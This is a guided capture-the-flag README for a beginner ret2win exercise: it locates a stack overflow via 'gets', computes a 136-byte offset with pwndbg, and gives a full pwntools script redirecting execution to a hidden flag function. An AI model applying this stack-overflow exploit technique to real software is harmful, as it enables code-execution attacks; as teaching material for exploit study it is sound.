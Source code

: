 # Challenge Name
kid_R2W

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, 
1. `enlightenment` function has a vulnerable `gets` function.
2. `hiddenBlessing` function contains the flag.

We want to perform ret2win in this case.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `hiddenBlessing` address

#### To find the offset needed:
1. use `cyclic 200` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `raaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l raaaaaaa
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

#### To find the win address:
```shell
$> objdump -d kid_R2W_bin | grep hiddenBlessing
00000000004006d7 <hiddenBlessing>:
...
```

#### How do we place inputs for the options then?
You can do the following so that it sends what you want after the binary output:
```python
input = b"abc\n"
p.sendafter("binary output", input)
```

With that knowledge, we can put our solve script together!

#### Final Solution
```python
from pwn import *

# local solve
p = process("./kid_R2W_bin")
context.binary = "./kid_R2W_bin"

# remote solve
# p = remote (server, port)

# hiddenBlessing function
win = p64(0x4006d7) + b'\n'

# Choose option first to enlightenment function
option = b'2\n'
p.sendlineafter("purpose: \n", option)


# send payload after sendting option
payload = b'A' * 136  
payload += win        
p.sendafter("know? \n", payload)

p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. which part of the code has a vulnerable C function?
2. check out sendafter: https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679


## Resources
https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win
https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679
https://docs.pwntools.com/en/dev/tubes.html


## Attached Files
baby_R2W.c
baby_R2W_bin

## Flag
refer to flag.txt